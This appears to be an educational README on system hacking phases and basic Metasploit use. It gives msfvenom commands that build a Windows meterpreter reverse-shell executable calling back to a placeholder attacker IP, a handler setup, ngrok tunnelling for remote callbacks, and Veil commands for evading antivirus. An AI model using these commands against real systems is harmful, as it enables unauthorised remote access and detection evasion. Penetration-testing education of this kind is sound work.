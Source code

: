 # System Hacking Techniques

## Disclaimer
*This documentation is intended solely for educational purposes. The techniques described here should only be used in authorized penetration testing scenarios or with explicit permission. Unauthorized use of these methods for malicious purposes is illegal and unethical.*

## Introduction to System Hacking
System hacking involves exploiting vulnerabilities in systems to gain unauthorized access or control. Ethical hackers use these techniques to identify and fix security weaknesses.

## Steps to Follow

### 1. Reconnaissance
- **Objective:** Gather information about the target system.
- **Techniques:** Passive and active information gathering.

### 2. Scanning
- **Objective:** Identify open ports and services.
- **Tools:** Nmap, Netcat.

### 3. Gaining Access
- **Objective:** Exploit vulnerabilities to gain access.
- **Techniques:** Using Metasploit, password attacks.

### 4. Maintaining Access
- **Objective:** Ensure continued access.
- **Techniques:** Backdoors, rootkits.

### 5. Covering Tracks
- **Objective:** Avoid detection.
- **Techniques:** Log tampering, hiding files.

## Metasploit Framework

### What is Metasploit?
[Metasploit](https://www.metasploit.com/) is a powerful tool for developing and executing exploit code against a remote target machine. It provides information about security vulnerabilities and aids in penetration testing.

### Why Use Metasploit?
- **Comprehensive:** Contains a wide range of exploits and payloads.
- **Ease of Use:** User-friendly interface and commands.
- **Community Support:** Active community and regular updates.

### Basic Usage

#### Installing Metasploit
- **On Kali Linux:**
  ```bash
  sudo apt update
  sudo apt install metasploit-framework
  ```

#### Starting Metasploit
```bash
msfconsole
```

#### Basic Commands
- **Search for Exploits:**
  ```bash
  search <exploit_name>
  ```
- **Use an Exploit:**
  ```bash
  use <exploit_path>
  ```
- **Set Options:**
  ```bash
  set <option_name> <value>
  ```
- **Run Exploit:**
  ```bash
  exploit
  ```

### Dummy Live Example

#### Scenario: Exploiting a Vulnerable Windows Machine

1. **Create Payload with msfvenom:**
   - msfvenom is a tool used to generate payloads that can be used in various exploits.
  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > shell.exe
   ```

2. **Start Metasploit Console:**
   ```bash
   msfconsole
   ```

3. **Set Up Exploit Handler:**
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <attacker_ip>
   set LPORT 4444
   exploit
   ```

4. **Deliver Payload to Target:**
   - Send the `shell.exe` file to the target machine and execute it.

5. **Meterpreter Session:**
   - If successful, you will get a meterpreter session.
   - Use `help` to see available commands.

### Advanced Topics

# [NGROK](https://ngrok.com/)

Ngrok creates a secure tunnel to a localhost server, making it accessible remotely.

**Using NGROK:**
```bash
ngrok tcp 4444
# Generate payload with Ngrok IP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ngrok_ip> LPORT=<ngrok_port> -f exe > remote.exe
```

#### Obfuscation Techniques
Obfuscation makes payloads and exploits harder to detect by security systems.

**Common Techniques:**
- **Encoding**
- **Encryption**
- **String Concatenation**
- **Toggle Cases**

#### Tools for Obfuscation
- **[Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion):** A tool designed to generate metasploit payloads that bypass common anti-virus solutions.
- **[Shellter](https://www.shellterproject.com/):** A dynamic shellcode injection tool.

**Example Usage:**
```bash
veil
use python/meterpreter/rev_https
set LHOST <attacker_ip>
set LPORT 443
generate
```

## Learning-Material
- [Exploitation Tutorial - HackerSploit](https://www.youtube.com/playlist?list=PLBf0hzazHTGOWEu3p7QbtqTCiy1nsdZFj)
- [Ngrok](https://dashboard.ngrok.com/get-started/setup/linux)
- [Villain GitHub Repository](https://github.com/t3l3machus/Villain)